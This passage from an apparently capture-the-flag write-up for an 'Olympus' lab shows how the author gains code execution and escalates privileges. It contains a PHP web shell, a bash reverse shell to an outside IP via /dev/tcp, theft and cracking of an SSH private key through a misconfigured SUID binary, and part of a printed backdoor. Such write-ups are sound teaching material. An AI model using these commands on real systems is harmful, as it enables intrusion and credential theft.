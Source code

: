 I access `http://chat.olympus.thm/uploads/000007bc943b38bd058d5b9827f789e5.php?cmd=id` and see I have RCE. This is because I made my reverse shell php code like this:     `<?php system($_GET['cmd']); ?>`.

___
## Privilege Escalation

I set my listener like `nc -lvnp 4444` and visit the link `http://chat.olympus.thm/uploads/000007bc943b38bd058d5b9827f789e5.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.13.66.123/4444%200%3E%261%27'`.

I catch the shell and fix it with:
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```

In `/home/zeus` I find `zeus.flag` and `zeus.txt` which contains:
```shell
Hey zeus !  
I managed to hack my way back into the olympus eventually.  
Looks like the IT kid messed up again !  
Ive now got a permanent access as a super user to the olympus.
	- Prometheus.
```
Linpeas marked it as vulnerable to `CVE-2021-3560`.

`sudo -l` doesnt work. I check for `suids` with `find / -perm /u=s -type f 2>/dev/null` and I see `/usr/bin/cputils` which normally isnt there. I run `/usr/bin/cputils --help` and it just prompts me to enter a file. I enter `/etc/passwd` and enter a file name. It saves it to a file. So I can read files with this. I try to do it with `/etc/shadow` and it says "Error Occured!". I run `/usr/bin/cputils` and enter `/home/zeus/.ssh/id_rsa` and save it to `id_rsa`.

I copy the private key to my machine with `python3 -m http.server` then `wget http://10.10.62.109:8000/id_rsa`. 

I run `chmod 600 id_rsa` and finally `ssh -i id_rsa zeus@10.10.62.109` to log in. I find it has a passphrase so I run `python3 ssh2john.py id_rsa > id_rsa.hash` and then `/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash` and discover the passphrase is `...`.

Now I'm zeus I search for suids again with `find / -perm /u=s -type f 2>/dev/null`. It returns nothing helpful. I return to the hint from earlier about leaving "permanent access as a super user". Inside `/var/www/html/...` I find:
```shell
cat VIGQFQFMYOST.php  
<?php  
$pass = "...";  
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');  
  
set_time_limit(0);  
  
$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");  

$ip = $_GET["ip"]; $port = $_GET["port"];  

$write_a = null;  
$error_a = null;  
  
$suid_bd = "/lib/defended/libc.so.99";  
$shell = "uname -a; w; $suid_bd";  
  
```